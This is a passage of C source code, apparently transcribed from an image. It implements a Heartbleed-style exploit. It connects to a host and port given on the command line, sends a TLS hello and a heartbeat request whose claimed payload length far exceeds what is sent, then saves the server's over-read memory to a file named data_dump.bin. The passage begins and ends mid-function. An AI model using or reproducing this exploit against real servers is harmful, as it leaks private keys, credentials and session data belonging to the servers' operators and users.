       struct tls_message_heartbeat hb = {
        .message = {
          .content_type = 24,     /* heartbeat message */
          .version = 0x0103, /* protocol version 3.1 */
          .length = htons(sizeof(struct heartbeat_message))
        },
        .payload = {
          1,
          htons(0x4000 - sizeof(struct heartbeat_message))
        }
      };
      /* DATA END. */

      if (argc > 1)
        name = argv[1];

      if (argc > 2)
        port = argv[2];

      int s = connect_target(name, port);

      int bt = write(s, &client_hlo, sizeof(client_hlo));
      printf("Client helo: sent %d bytes\n", bt);

      wait_server_helo_done(s);

      bt = write(s, &hb, sizeof(hb));
      printf("Client heartbeat: sent %d bytes\n", bt);

      /* Now we need to read heartbeat answer of len bytes. */
      unsigned char buf[65535];
      bt = recv(s, buf, sizeof(buf), 0);
      if (-1 == bt) {
        printf("Cannot read: %s\n", strerror(errno));
        exit(5);
      }
      if (0 == bt) {
        printf("Server closed connection\n");
        exit(5);
      }


      printf("%d bytes received from host\n", bt);

      write_down(buf, bt, "data_dump.bin");

      return 0;

    }




    int connect_target(const char *name, const char *port)
    {
      int s = socket(AF_INET, SOCK_STREAM, 0);

      if (-1 == s) {
        printf("Cannot create socket.\n");
        exit(1);
      }
